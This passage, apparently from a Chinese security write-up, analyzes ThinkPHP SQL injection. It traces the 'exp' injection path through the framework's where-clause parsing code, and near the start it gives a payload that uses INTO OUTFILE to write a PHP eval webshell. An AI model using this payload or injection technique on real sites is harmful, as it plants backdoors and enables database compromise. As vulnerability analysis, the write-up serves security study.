 `?id=1*/ into outfile "path/1.php" LINES STARTING BY '&lt;?php eval($_POST[1]);?&gt;'/*` 就可以进行写马了。



## 0x04 exp注入

触发exp注入的查询语句如下。

```
public function sql()
`{`
    $User = D('user');
    var_dump($_GET['id']);
    $map = array('id' =&gt; $_GET['id']);
    // $map = array('id' =&gt; I('id'));
    $user = $User-&gt;where($map)-&gt;find();
    var_dump($user);
`}`
```

这里一路跟进到 `parseSql()` 函数，然后调用到 `parseWhere()` 。

```
public function parseSql($sql,$options=array())`{`
    $sql   = str_replace(
        array('%TABLE%','%DISTINCT%','%FIELD%','%JOIN%','%WHERE%','%GROUP%','%HAVING%','%ORDER%','%LIMIT%','%UNION%','%LOCK%','%COMMENT%','%FORCE%'),
        array(
            $this-&gt;parseTable($options['table']),
            $this-&gt;parseDistinct(isset($options['distinct'])?$options['distinct']:false),
            $this-&gt;parseField(!empty($options['field'])?$options['field']:'*'),
            $this-&gt;parseJoin(!empty($options['join'])?$options['join']:''),
            $this-&gt;parseWhere(!empty($options['where'])?$options['where']:''),
            $this-&gt;parseGroup(!empty($options['group'])?$options['group']:''),
            $this-&gt;parseHaving(!empty($options['having'])?$options['having']:''),
            $this-&gt;parseOrder(!empty($options['order'])?$options['order']:''),
            $this-&gt;parseLimit(!empty($options['limit'])?$options['limit']:''),
            $this-&gt;parseUnion(!empty($options['union'])?$options['union']:''),
            $this-&gt;parseLock(isset($options['lock'])?$options['lock']:false),
            $this-&gt;parseComment(!empty($options['comment'])?$options['comment']:''),
            $this-&gt;parseForce(!empty($options['force'])?$options['force']:'')
        ),$sql);
    return $sql;
`}`
```

`parseWhere()` 调用了 `parseWhereItem()` ，截取了部分关键代码，这里的 `$val` 就是我们传入的参数，所以当我们传入数组时，`$exp` 就是数组的第一个值，如果等于exp，就会使用.直接将数组的第二个值拼接上去，就会造成SQL注入。

```
$exp = strtolower($val[0]);
......
elseif('bind' == $exp )`{` // 使用表达式
    $whereStr .= $key.' = :'.$val[1];
`}`elseif('exp' == $exp )`{` // 使用表达式
    $whereStr .= $key.' '.$val[1];
`}`
```
